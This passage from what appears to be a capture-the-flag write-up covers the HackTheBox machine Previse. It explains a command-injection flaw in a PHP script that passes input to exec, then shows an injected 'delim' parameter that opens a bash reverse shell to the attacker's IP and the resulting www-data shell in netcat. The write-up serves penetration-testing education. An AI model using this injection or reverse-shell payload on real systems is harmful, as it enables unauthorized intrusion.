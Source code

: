     if(file_exists($filepath)) {
        header('Content-Description: File Transfer');
        header('Content-Type: application/octet-stream');
        header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
        header('Expires: 0');
        header('Cache-Control: must-revalidate');
        header('Pragma: public');
        header('Content-Length: ' . filesize($filepath));
        ob_clean(); // Discard data in the output buffer
        flush(); // Flush system headers
        readfile($filepath);
        die();
    } else {
        http_response_code(404);
        die();
    }
    ?> 



The developer even left a comment about using Python because it was
easier.

The output is `echo`ed, but then later it `ob_clean()` to get rid of
that so it doesn't come back in the response.

There is no sanitization of the user input before it's put into the call
to `exec`, which means that I can add all sorts of injections to get
execution, like `; [command]` and `$([command])`.

### Shell

To turn this RCE into a shell, I'll simple add a reverse shell to the
request with `nc` listening:



    delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261' #



On sending, it just hangs, but at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53808
    bash: cannot set terminal process group (1389): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@previse:/var/www.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade my shell using `script` (a nice alternative for `python`
PTY module):



